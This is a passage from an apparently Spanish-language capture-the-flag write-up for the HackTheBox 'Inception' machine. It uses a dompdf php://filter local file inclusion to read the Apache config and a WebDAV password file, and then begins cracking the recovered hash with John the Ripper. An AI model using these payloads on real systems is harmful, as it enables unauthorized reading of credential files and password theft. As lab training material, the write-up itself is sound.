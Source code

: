 <img class="img" src="/assets/img/machines/Inception/4.png" width="800">
Con esto logramos sacar al usuario cobb.
De aqui intente sacar muchas cosas pero no funcionaron, inclusive la configuracion del Squid, pero no encontre nada interesante, por lo tanto solo pude buscar la configuracion del servidor web.
http://inception.htb/dompdf/dompdf.php?input\_file=php://filter/read=convert.base64-enconde/resource=/etc/apache2/sites-enabled/000-default.conf
<img class="img" src="/assets/img/machines/Inception/5.png" width="800">
De esto porfin saque cosas interesantes.
http://inception.htb/dompdf/dompdf.php?input\_file=php://filter/read=convert.base64-enconde/resource=//var/www/html/webdav\_test\_inception/webdav.passwd
```bash
webdav_tester:$apr1$8rO7Smi4$yqn7H.GvJFtsTou1a7VME0
```
En este archivo hay un hash el cual voy a tratar de crackear.
```bash
ohn -w=/usr/share/wordlists/rockyou.txt hash
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 4 OpenMP threads
```